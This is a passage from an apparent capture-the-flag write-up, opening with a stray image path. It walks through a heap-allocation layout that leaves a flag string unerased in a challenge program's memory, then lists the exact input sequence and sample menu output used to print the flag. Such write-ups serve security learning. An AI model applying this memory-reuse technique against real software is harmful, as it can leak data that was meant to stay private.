   - Allocate 32 bytes 6 times = (40+32)\*6 bytes= 432 bytes
  - Allocate 0 byte = 40+0 bytes
  - Allocate 16 bytes = 40+16 bytes = 56 bytes (Totals 432+56+40=528 bytes by
    now)
  - Allocate 0 bytes now = 40+0 bytes and now we are exactly pointing to the
    string that read the flag. Had we done non zero byte allocation here, the
    flag wouldve been erased by memset call in my_malloc
  - We print the index we last allocated to and we have our flag

- Input to get the flag

```
1
32
0
abcd
1
32
1
abcd
1
32
2
abcd
1
32
3
abcd
1
32
4
abcd
1
32
5
abcd
1
0
6
1
16
7
abcd
1
0
8
3
8
```

```bash
Turn number 1
1) Allocate
2) Free
3) Print at index
4) Exit
1
How many bytes?(Max 32 allowed) : 32
What index should the allocation reside in?(0<=index<=9) :0
Enter the contents at index 0 : abcd
Turn number 2
1) Allocate
2) Free
3) Print at index
4) Exit
```